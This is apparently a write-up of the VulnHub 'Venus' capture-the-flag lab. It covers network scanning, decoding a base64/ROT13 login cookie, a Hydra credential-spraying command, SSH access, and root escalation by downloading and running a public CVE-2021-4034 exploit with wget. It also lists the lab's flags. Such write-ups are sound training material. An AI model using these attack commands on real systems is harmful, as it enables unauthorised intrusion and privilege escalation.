# The Planets: Venus
<p align="left">
  
</p>

## Table of Contents
- [Url](#url)
- [Description](#description)
- [Walkthrough](#walkthrough)
  - [Network scan](#network-scan)
  - [Webpage access](#webpage-access)
  - [Gobuster](#gobuster)
  - [BurpSuite](#burpsuite)
  - [Cyberchef](#cyberchef)
  - [Hydra](#hydra)
  - [Cookies](#cookies)
  - [`magellan` account access](#magellan-account-access)
    - [User flag](#user-flag)
  - [Privileges and files verification](#privileges-and-files-verification)
  - [Exploitation](#exploitation)
    - [Root flag](#root-flag)
- [Flags](#flags)

## Url
https://www.vulnhub.com/entry/the-planets-venus,705/

## Description
Venus is a medium box requiring more knowledge than the previous box, "Mercury", in this series. There are two flags on the box: a user and root flag which include an md5 hash. This has been tested on VirtualBox so may not work correctly on VMware. Any questions/issues or feedback please email me at: SirFlash at protonmail.com

## Walkthrough
### Network scan

First, I decided to scan the local LAN using the command ```sudo arp-scan -l```
```
┌─[parrot@parrot]─[~]
└──╼ $sudo arp-scan -l
(...)
192.168.100.153	08:00:27:18:54:5e	PCS Systemtechnik GmbH
(...)
```

After finding the IP address I was interested in ```192.168.100.153```, I decided to use the nmap tool to see if any ports were open and what services were running (along with their version). So I ran ```nmap -sV -sC 192.168.100.153```
```
┌─[✗]─[parrot@parrot]─[~]
└──╼ $sudo nmap -sV -sC -p- 192.168.100.153
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-29 22:13 CEST
Nmap scan report for 192.168.100.153
Host is up (0.0013s latency).
Not shown: 65336 filtered tcp ports (no-response), 197 filtered tcp ports (admin-prohibited)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.5 (protocol 2.0)
| ssh-hostkey: 
|   256 b0:3e:1c:68:4a:31:32:77:53:e3:10:89:d6:29:78:50 (ECDSA)
|_  256 fd:b4:20:d0:d8:da:02:67:a4:a5:48:f3:46:e2:b9:0f (ED25519)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.9.5
| fingerprint-strings:
```

In the result I got, I found some interesting information. The first is that ports 8080 and 22 are open.

### Webpage access

I decided to enter the address and port into my browser to see what the site was hiding.

<p align="center">
  
</p>

After logging in with the `guest:guest` data, the page was as follows:

<p align="center">
  
</p>

In addition to this, I decided to check what happens when invalid data is entered. It then displays `Invalid username` in case of invalid username and `Invalid password` in case of invalid password.

<p align="center">
  
</p>

### Gobuster

The next step was to scan the sites to find if there were any files or directories available from the browser. To do this, I used the ````gobuster``` tool:
```
┌─[parrot@parrot]─[~]
└──╼ $gobuster dir -u http://192.168.100.153:8080/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.100.153:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> /admin/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

This is how I found out about the existence of the `/admin` subpage. After accessing it, the Django administration panel appeared.

<p align="center">
  
</p>

Unfortunately, I wasn't able to find any more information about the Django panel other than the fact that an error 500 is returned when trying to log in. In this case, I decided to go back to `http://192.168.100.153:8080` to get a better look at the site. I used the BurpSuite tool to do so.

### BurpSuite
Podczas logowania złapałam wysyłane żądanie i przesłałam je do Repeatera. Poniżej znajduje się wspomniane żądanie:

<p align="center">
  
</p>

There I came across an encoded `auth` cookie whose value was `Z3Vlc3Q6dGhyZmc=`. Knowing that the string was encoded with `base64` I decided to decode it.

```
┌─[parrot@parrot]─[~]
└──╼ $echo "Z3Vlc3Q6dGhyZmc=" | base64 -d
guest:thrfg
```

### Cyberchef
By doing so, I obtained a username and password, which (in my opinion) was also encrypted. At first glance, it appears to be encrypted by shifting letters. Based on this, I deduced that most likely `ROT` was used. Using Cyberchef, I managed to get to the information that it was `ROT13` and thus decrypted the password:

<p align="center">
  
</p>

With the above knowledge of the site's login mechanism, I figured it would be a good idea to check if there are other users for whom the password is also set to `guest`. With that, I turned my attention to Hydra.

### Hydra

To make sure that a large database with usernames is taken into account, I used the file [`xato-net-10-million-usernames.txt`.](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt). I considered the following attack scenario:
- setting the permanent password to `guest`
- providing a list of logins from the `xato-net-10-million-usernames.txt` file
- setting port 8080
- pointing to the POST method (login)
- substitution of logins from the file
- searching for the string `Invalid username` so that the program knows that the data entered is incorrect

The final command used for the attack looks as follows:

```
┌─[parrot@parrot]─[~]
└──╼ $hydra -p guest -s 8080 -L Desktop/xato-net-10-million-usernames.txt 192.168.100.153 http-post-form "/:username=^USER^&password=^PASS^:Invalid username."
(...)
[DATA] attacking http-post-form://192.168.100.153:8080/:username=^USER^&password=^PASS^:Invalid username.
[8080][http-post-form] host: 192.168.100.153   login: guest   password: guest
(...)
[8080][http-post-form] host: 192.168.100.153   login: magellan   password: guest
(...)
[8080][http-post-form] host: 192.168.100.153   login: venus   password: guest
```

After waiting an appropriate amount of time, Hydra completed its operation. I received three logins for which the password is `guest`.

I found that it would be a good idea to try to pass the found credentials to the request through Burp. I would use the `auth` cookie for this. To do this, I need the data properly prepared. I first encoded the credentials using `base64`:

```
┌─[parrot@parrot]─[~]
└──╼ $echo "magellan:thrfg" | base64
bWFnZWxsYW46dGhyZmcK
```

### Cookies
After sending the request to the Repeater, I added an `auth` cookie that contained the encoded data:

<p align="center">
  
</p>

This resulted in a response where in the `Set-Cookie` field the `auth` cookie contained the value `bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ==`. So I decided to decode it:
```
┌─[parrot@parrot]─[~]
└──╼ $echo "bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ==" | base64 -d
magellan:irahfvnatrbybtl1989
```

Knowing the username, I deduced that `irahfvnatrbybtl1989` is the password. Following the previous lead, I assumed that this password is also encoded with `ROT13`. I was not wrong - after decoding I received the password `venusiangeology1989`. Thus, the credentiali combination `magellan:venusiangeology1989` got into my hands.

I proceeded in exactly the same way with the user `venus`. The combination received was `venus:venus`.

I tried logging in with both users. It was only successful using the `magellan` account.

### `magellan` account access
```
┌─[parrot@parrot]─[~]
└──╼ $ssh magellan@192.168.100.153
(...)
[magellan@venus ~]$ 
```

Immediately after logging in was able to find the user flag.

#### User flag
```
[magellan@venus ~]$ cat user_flag.txt 
[user_flag_e799a60032068b27b8ff212b57c200b0]
```

### Privileges and files verification
The next stage of my challenge was to check what rights the user has and whether he can execute commands with `sudo`.
```
[magellan@venus ~]$ id
uid=1001(magellan) gid=1001(magellan) groups=1001(magellan) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[magellan@venus ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for magellan: 
Sorry, user magellan may not run sudo on venus.
```

Unfortunately, the user cannot use `sudo`. I later checked the files using `find` with permission 400.
```
[magellan@venus ~]$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/cockpit-session
```

I familiarized myself with the listed files and searched the Internet for help. I found interesting information on privilege escalation with polkit. I decided to become more familiar with this topic with the hope of finding a solution.

<p align="center">
  
</p>

### Exploitation
I found two CVEs (CVE-2021-4034 and CVE-2021-3560) that I could potentially use in an attack to gain root access.

I decided to use CVE-2021-4034. I found the corresponding repository on [GitHub](https://github.com/berdav/CVE-2021-4034) and downloaded it in zip form. Of course, I unpacked it after downloading.

```
[magellan@venus ~]$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.zip
[magellan@venus ~]$ unzip main.zip
```

After unzipping, the `CVE-2021-4034-main` directory contained the following files:

<p align="center">
  
</p>

After executing the `.sh` file, I was able to access the root account.

<p align="center">
  
</p>

Immediately after gaining access, the root flag was available.

<p align="center">
  
</p>

#### Root flag
```
sh-5.1# cat root_flag.txt 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Congratulations on completing Venus!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_83588a17919eba10e20aad15081346af]
```

# Flags
- user_flag: `user_flag_e799a60032068b27b8ff212b57c200b0`
- root_flag: `root_flag_83588a17919eba10e20aad15081346af`
